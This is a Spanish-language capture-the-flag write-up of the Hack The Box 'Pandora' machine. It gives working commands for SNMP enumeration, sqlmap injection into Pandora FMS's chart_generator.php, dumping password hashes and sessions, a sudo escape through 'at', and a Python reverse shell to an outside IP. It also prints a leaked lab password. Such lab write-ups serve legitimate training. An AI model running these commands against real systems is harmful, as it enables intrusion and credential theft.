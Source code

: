 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
Esta maquina es una de las faciles de HtB, su sistema operativo es Ubuntu linux. E intentaremos llegar a las flags de la maquina.

- <a href="#desarrollo">Desarrollo</a>
Despues del primer escaneo, ingresamos al servicio web y mientras navegamos no encontramos nada importante. Pero si descubrimos un dominio, el cuel integraremos en nuestro archivo /etc/hosts. Para posteriormente, realizar otro escaneo dirigido al dominio.

![Nmap segundo scanning](/assets/images/pandora/nmap2PANDA.png)

Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Intentaremos usar diferentes herramientas para descubrir informacion sobre este servicio encontrado 
Con el modulo scanner/snmp/snmp_login de msfconsole, encontramos la version del sistema operativo y del servicio snmp
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP y un community string que generalmente se usa llamado “public” 

Nos instalamos la herramienta
```sc
sudo apt-get install snmp-mibs-downloader
download-mibs
```

Ya que conocemos un string usado, podemos proceder a usarlo para acceder a los datos transmitidos con el comando:

```sc
snmpwalk -v 1 -c public panda.htb
```
![Primer scan con snmpwalk](/assets/images/pandora/snmpwalk1.png)
La herramienta anterior es un poco lenta y agresiva, para hacerlo mas rapido, podemos usar otra herramienta, que su sintaxis es:

```sc
braa public@10.10.11.136:.1.3.6.*
```
![Braa](/assets/images/pandora/braa.png)

Encontramos 3 palabras clave, las cuales pueden ser
- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords


Después con la herramienta snmpenum, seguiremos recopilando informacion de la maquina

```sc
snmpenum 10.10.11.136 public linux.txt
snmpwalk -c public -v2c -On 10.10.11.136

```
Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```
![Segundo scan con snmpwalk](/assets/images/pandora/snmpwalk_pass.png)

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```

Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

![Configuracion de Proxy](/assets/images/pandora/proxy_config.png)

![Prueba del proxy](/assets/images/pandora/proxy_working.png)

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
![Proxychain config file](/assets/images/pandora/proxychain_conf.png)

Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 
![Sqlmaping with proxychain](/assets/images/pandora/sqlmap_pass.png)

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttsessions_php --dump
``` 

![Php sessions con sqlmap](/assets/images/pandora/php_sessions.png)

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de esto , no se pudo establecer una shell mediante alguna injeccion de sql o algo visible. Pero utilizando esta <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">herramienta</a>, pudimos entrar como matt y leer la primer flag en /home/matt/user.txt.

```sc
proxychains python3 [pythontool].py -t localhost.localdomain
``` 

![Admin cookie](/assets/images/pandora/admin_cookie.png)


Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hay que revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Para poder ejecutar comandos con sudo, sin restricciones:

```sc
echo "/usr/bin/at <$(tty) >$(tty) 2>$(tty)" | sudo at now; [COMMAND]
``` 
Para tener una shell mas bonita, sumamos el script anterior y le adjuntamos el reverse shell de python, usamos el reverse shell hecho en python

```py
 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
``` 
Del lado de kali, ejecutamos el netcat:

```sc
nc -lvp 4444
``` 
Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.


